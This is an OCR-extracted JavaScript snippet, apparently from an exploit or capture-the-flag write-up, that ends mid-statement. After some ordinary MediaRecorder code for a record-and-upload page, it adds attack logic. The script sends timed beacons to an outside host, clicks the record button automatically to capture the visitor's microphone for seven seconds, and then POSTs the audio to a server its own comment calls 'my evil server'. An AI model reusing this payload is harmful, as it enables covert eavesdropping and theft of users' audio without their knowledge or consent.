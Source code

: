 ```js  
               recordButton.innerText = "Record";  
           } else {  
               recordButton.innerText = "Stop";  
               navigator.mediaDevices.getUserMedia({ audio: true })  
                   .then((stream) => {  
                       mediaRecorder = new MediaRecorder(stream, { mimeType: mediaType });  
                       mediaRecorder.start();

                       let chunks = [];

                       mediaRecorder.addEventListener("dataavailable", (e) => {  
                           chunks.push(e.data);  
                       });

                       mediaRecorder.addEventListener("stop", () => {  
                           mediaBlob = new Blob(chunks);  
                           recordPlayback.src = URL.createObjectURL(mediaBlob);  
                       })  
                   });  
           }  
       });  
   }

   if (uploadForm) {  
       uploadForm.addEventListener("submit", (e) => {  
           e.preventDefault();  
           let formData = new FormData(document.getElementById("upload-form"));  
           if (mediaBlob) {  
               formData.append("audiofile", mediaBlob, "audio." + mediaType.split("/")[1]);  
           }

       });  
   }  
   setTimeout(function(){  
       fetch("https://example.com.tw/?0");  
   }, 0);  
   setTimeout(function(){  
       fetch("https://example.com.tw/?5000");  
   }, 5000);  
   setTimeout(function(){  
       fetch("https://example.com.tw/?10000");  
   }, 10000);  
   setTimeout(function(){  
       fetch("https://example.com.tw/?15000");  
   }, 15000);  
   setTimeout(function(){  
       fetch("https://example.com.tw/?20000");  
   }, 20000);  
   setTimeout(function(){ // after 1000 ms, start recording  
       recordButton.click();  
       fetch("https://example.com.tw/?startrecording");  
       setTimeout(function() { // recording for 7000 ms  
           recordButton.click();  
           fetch("https://example.com.tw/?endrecording");

           // lets submit to my evil server  
           setTimeout(function() { // process time: 2000ms  
               let formData = new FormData(uploadForm);  
               if (mediaBlob) {  
                   formData.append("audiofile", mediaBlob, "audio." + mediaType.split("/")[1]);  
               }  
               let postf = fetch("https://example.com.tw/log", {  
                   method: "POST",  
```